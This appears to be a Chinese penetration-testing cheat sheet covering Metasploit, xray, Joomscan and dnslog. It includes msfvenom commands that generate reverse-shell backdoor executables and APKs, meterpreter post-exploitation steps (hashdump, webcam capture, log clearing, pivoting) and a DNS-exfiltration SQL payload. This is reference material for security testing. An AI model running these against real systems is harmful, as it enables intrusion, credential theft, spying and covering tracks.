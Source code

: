 综合框架
----------------------------------------

metasploit
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- Terminal下msf常用命令简介
	+ msf数据库初始化
		``msfdb init``
	+ msf更新
		``apt install metasploit framework``
	+ 多平台攻击载荷生成器
		``msfvenom``
	+ 将汇编指令转换成为对应的16进制机器码
		``msf-nasm_shell``
	+ 打开msf终端
		``msfconsole``
- msf终端下常用命令简介
	+ 查看数msf据库连接状态,连接数据库能够优化搜索等过程
		``db_status`` 
	+ 重建缓存，将模块等索引重新存入数据库
		``db_rebuild_cache``
	+ 调用nmap扫描，并将扫描结果存入数据库
		``db_nmap``
	+ 显示命令的帮助信息
		``help [db_connect]``
	+ 搜索含有关键字的模块
		``search [module]``
	+ 选择模块
		``use [module]``
	+ 显示该模块支持的payload
		``show payload``
	+ 显示该模块需要设置的参数(其中required为no的表示不是必须的参数)
		``show options``
	+ 如果觉得show命令显示的不够完整可以直接输入info查看详细详细
		``info``
	+ 使用模块后，设置模块所需要的参数的值(对应使用unset取消设置的值)
		``set [opt]``
	+ 设置全局参数，对于ip之类的参数可以设置为全局，当切换模块后就不需要再次设置ip参数(对应使用unsetg取消设置)
		``setg [opt]``
	+ 返回上级状态
		``back``
	+ 两个命令都表示运行攻击模块
		``exploit/run``
	+ 查看当前连接的会话
		``sessions``
- 使用msfvenom生成木马文件
	+ 查看可使用的载荷/编码器/nops/所有列表
		``msfvenom -l payload/encoders/nops/all``
	+ 生成exe木马
		``msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=192.168.16.99 lport=4444 -a x64 -f exe -o backdoor_raw.exe`` 
	+ 生成apk木马
		``msfvenom -p android/meterpreter_reverse_tcp lhost=192.168.16.99 lport=4444 -o backdoor_raw.apk``
- meterpreter后渗透利用
	+ 打印当前工作目录：pwd
	+ 查看系统信息：sysinfo
	+ 查看当前目标机上运行的进程列表和pid：ps
	+ 调用相机拍摄照片：webcam_snap
	+ 运行vnc远程查看屏幕：run vnc
	+ 远程桌面3389（windows）：run post/windows/manage/enable_rdp
	+ 截取目标主机当前屏幕​：screenshot
	+ 获取当前权限的用户id：getuid
	+ 获取system权限：getsystem
	+ 获取用户名与hash口令：hashdump
	+ 获取目标主机shell(windows环境下中文乱码的解决办法:chcp 65001）：shell
	+ 退出shell模式，返回到meterpreter：Ctrl+Z
	+ 上传一个文件：upload
	+ 下载一个文件：download
	+ 执行目标系统中的文件(-f 指定文件，-i执行可交互模式，-H隐藏窗口)：excute
	+ 清除日志：clearev
	+ 将Meterpreter放入后台(使用session -i重新连接到会话)：background
- meterpreter内网渗透
	+ 获取目标主机上的子网状态：run get_local_subnets
	+ 使用autoroute模块添加到达内网的路由经session 1转发：run autoroute -s 169.254.0.0/16 1
	+ 查看当前的路由表：run autoroute -p
	+ 扫描内网存活主机：db_nmap
	+ 将目标主机192.168.16.59的3389转发到本地主机的7070端口：portfwd add -l 7070 -r 192.168.16.59 -p 3389
	+ 端口转发成功后就可以从本地端口连接rdp：rdesktop 127.0.0.1:7070

xray
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 全局配置
	+ --config 用于指定配置文件的位置，默认加载同目录的 config.yaml
	+ --log_level 用于指定全局的日志配置
	+ ``xray_windows_amd64.exe --log_level debug --config 1.yaml webscan --url xxx``
- reverse命令
	+ 启用单独的盲打平台服务，盲打平台用于处理没有回显或延迟触发的问题
- genca
	+ 用于快速生成一个根证书，主要用于被动代理扫描 HTTPS 流量时用到
- subdomain
	+ 子域名扫描
	+ ``xray_windows_amd64.exe  subdomain --target example.com --text-output example.txt``
	+ ``xray_windows_amd64.exe subdomain --target example.com --console-ui --text-output example.txt``
- webscan
	+ 扫描web漏洞，核心功能
	+ --plugins 配置本次扫描启用哪些插件, 不再使用配置文件中的配置
		- ``--plugins xss --plugins xss,sqldet,phantasm``
	+ --poc 配置本次扫描启用哪些 POC,因为所有 POC 隶属于 phantasm 插件, 所以该参数其实是 phantasm 插件独有的配置。
		- ``--plugins phantasm --poc poc-yaml-thinkphp5-controller-rce``
		- ``--plugins phantasm --poc "*thinkphp*"``
		- ``--plugins phantasm --poc "/home/test/pocs/*"``
		- ``--plugins phantasm --poc "/home/test/pocs/*thinkphp*" ...``
	+ 配置输入来源
		- --listen 
			+ 启动一个被动代理服务器作为输入，如 --listen 127.0.0.1:4444，然后配置浏览器或其他访问工具的 http 代理为 http://127.0.0.1:4444 就可以自动检测代理中的 HTTP 请求并进行漏洞扫描
		- --basic-crawler 
			+ 启用一个基础爬虫作为输入， 如 --basic-crawler http://example.com，就可抓取 http://example.com 的内容并以此内容进行漏洞扫描
		- --url 
			+ 用于快速测试单个 url，这个参数不带爬虫，只对当前链接进行测试。默认为 GET 请求，配合下面的 --data 参数可以指定 body，同时变为 POST 请求。
		- --raw-request 
			+ 用于加载一个原始的 HTTP 请求并用于扫描，原始请求类似上面代码框中的原始请求，如果你用过 sqlmap -r，那么这个参数应该也很容易上手。
	+ 输出方式
		- --html-output 将结果输出为 html 报告, 报告样例
		- --webhook-output 将结果发送到一个地址
		- --json-output 将结果输出到一个 json 文件中
	+ 示例
		- ``xray_darwin_amd64 webscan --plugins xss --listen 127.0.0.1:1111 --html-output 1.html``
		- ``xray_darwin_amd64 --log_level debug webscan --plugins xss,cmd_injection --basic-crawler http://example.com --json-output 1.json``
		- ``xray_darwin_amd64 webscan --url http://example.com --data "x=y" --html-output 2.html --json-output 1.json``
		- ``xray_darwin_amd64 webscan --url http://example.com/ --webhook-output http://host:port/path``


Joomscan
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 介绍
	+ Joomla security scanner可以检测Joomla整站程序搭建的网站是否存在文件包含、sql注入、命令执行等漏洞。
- 使用方法
	+ 默认检测：``joomscan -u www.example.com``
	+ 组件检测：``joomscan -u www.example.com –ec``
	+ 设置cookie：``joomscan -u www.example.com --cookie "test=demo;"``
	+ 随机UA：``joomscan -u www.example.com -r``
	+ 设置代理：``joomscan -u www.example.com --proxy http://127.0.0.1:8080``
	
dnslog
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 利用场景
	+ Sql-Blind
	+ RCE
	+ SSRF
	+ RFI（Remote File Inclusion）
- 原理
	将dnslog平台中的特有字段payload带入目标发起dns请求，通过dns解析将请求后的关键信息组合成新的三级域名带出，在ns服务器的dns日志中显示出来。
- 限制
	load_file函数在Linux下是无法用来做dnslog攻击的，因为Linux没有UNC路径(UNC路径就是类似\\softer这样的形式的网络路径)。
- 示例
	+ ``select load_file('\\\\',version(),'.dnslog地址')``

其它
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- AWVS
- Immunity Canvas
- openvas
- nessus
- `PenTesters Framework(ptf) <https://github.com/trustedsec/ptf>`_
- katoolin
- `w3af <http://w3af.org/>`_
- `AutoSploit <https://github.com/NullArray/AutoSploit/>`_
- `skipfish <https://my.oschina.net/u/995648/blog/114321>`_
- `Arachni <http://www.arachni-scanner.com/>`_
- `Spiderfoot <https://github.com/smicallef/spiderfoot>`_
- `AZScanner <https://github.com/az0ne/AZScanner>`_
- `Fuxi <https://github.com/jeffzh3ng/Fuxi-Scanner>`_
- `vooki <https://www.vegabird.com/vooki/>`_
- `BadMod <https://github.com/MrSqar-Ye/BadMod>`_
- `x-scan <https://x-scan.apponic.com/>`_
